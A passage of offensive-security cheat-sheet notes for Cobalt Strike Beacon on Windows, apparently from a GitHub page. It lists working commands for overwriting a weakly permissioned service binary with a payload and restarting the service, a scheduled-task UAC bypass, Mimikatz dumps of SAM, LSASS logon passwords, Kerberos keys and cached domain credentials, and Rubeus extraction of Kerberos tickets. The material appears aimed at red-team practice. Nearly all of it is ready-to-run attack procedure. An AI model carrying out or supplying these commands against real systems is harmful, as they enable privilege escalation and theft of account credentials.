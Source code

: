 > This allows us to overwrite the binary with something else (make sure you take a backup first).

```powershell
powershell Get-Acl -Path "C:\Program Files\Vulnerable Services\Service 3.exe" | fl
download Service 3.exe
copy "tcp-local_x64.svc.exe" "Service 3.exe"
upload C:\Payloads\Service 3.exe
run sc stop VulnService3
upload C:\Payloads\Service 3.exe
run sc start VulnService3
```

### UAC Bypass

- https://github.com/cobalt-strike/ElevateKit

```powershell
whoami /groups
# Medium or High. Medium no Admin and you need bypass UAC, High Admin
beacon> elevate uac-schtasks tcp-local
```

## Credential Theft

### Mimikatz

- The `!` elevates Beacon to SYSTEM before running the given command
- The `@` impersonates Beacon's thread token before running the given command

```bash
beacon> mimikatz token::elevate ; lsadump::sam
beacon> mimikatz !lsadump::sam

#Logon Passwords (lsass)
beacon> mimikatz !sekurlsa::logonpasswords

# Kerberos Encryption Keys
beacon> mimikatz !sekurlsa::ekeys

# SAM
beacon> mimikatz !lsadump::sam

# Domain Cached Credentials
# DCC is orders of magnitude slower to crack than NTLM.
# $DCC2$<iterations>#<username>#<hash>
beacon> mimikatz !lsadump::cache
```

### Extracting Kerberos Tickets

```bash
# List tickets
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
# Extract specif user ticket
# This will output the ticket(s) in base64 encoded format
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x7049f /service:krbtgt /nowrap
```
